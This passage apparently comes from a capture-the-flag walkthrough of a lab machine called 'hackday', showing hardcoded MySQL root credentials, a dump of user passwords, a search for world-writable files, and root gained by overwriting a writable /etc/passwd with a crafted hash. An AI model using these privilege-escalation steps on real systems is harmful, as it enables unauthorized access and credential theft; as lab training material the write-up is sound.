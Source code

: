 Looking for a way to become the user taviso I noticed the webapp is using the mysql root user to connect to the database.

```php
$db_host = "127.0.0.1";
$db_name = "bank_database";
$db_user = "root";
$db_password = "NuCiGoGo321";
```

Trying to login:

```
mysql -u root -pNuCiGoGo321
```

Sadly there was no other content in the database and I did not want to try the latest mysql server race condition privescs because I thought that's lame and there has to be another way. But hey, at least we now have the valid logins for all users:

```
mysql> select * from klienti;
select * from klienti;
+----+-------------+---------+---------+----------+------------+
| ID | emer        | mbiemer | bilanci | username | password   |
+----+-------------+---------+---------+----------+------------+
|  1 | Charles D.  | Hobson  |   25000 | hobson   | Charles123 |
|  2 | Jeffery     | Fischer |  120000 | jeff     | jeff321    |
+----+-------------+---------+---------+----------+------------+
2 rows in set (0.00 sec)
```

Searching the system for world writeable files gave me a little **WTF** moment:
**/etc/passwd is writeable by every user**

```
$ find / -type f -perm -o+w -exec ls -l {} \; 2>/dev/null | grep -v /proc/ | grep -v /sys/
-rw-r--rw- 1 root root 1623 Oct 22 17:21 /etc/passwd
-rwxrwxrwx 1 root root 0 Oct 22 16:56 /var/crash/.lock
```

So I downloaded the `/etc/passwd` with meterpreter and generated a new password hash with python:
```
root@kali:~# python -c 'import crypt; print crypt.crypt("supersecretpassword", "$6$saltsalt$")'
$6$saltsalt$t084OTPu49EJVUgFTLQxZ4yArFIeFzEnpGtrpyifSoSmJuIk0rQ9YmVXUyd2.Is1eMV/S0loZUxni1ijH5Qem.
```

I then replaced the second field of the user root and taviso in the passwd file with the new password hash and uploaded it again, overwriting the original `/etc/passwd`.

Trying to SSH in with root and the new password failed - likely because root SSH login is disabled.
But trying to SSH in with the user taviso works and we now have a working session!

Knowing the user taviso is able to execute sudo, let's check his rights:

```
taviso@hackday:~$ sudo -l
[sudo] password for taviso:
Matching Defaults entries for taviso on hackday:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User taviso may run the following commands on hackday:
    (ALL : ALL) ALL

taviso@hackday:~$ su -
Password:
root@hackday:~#
```
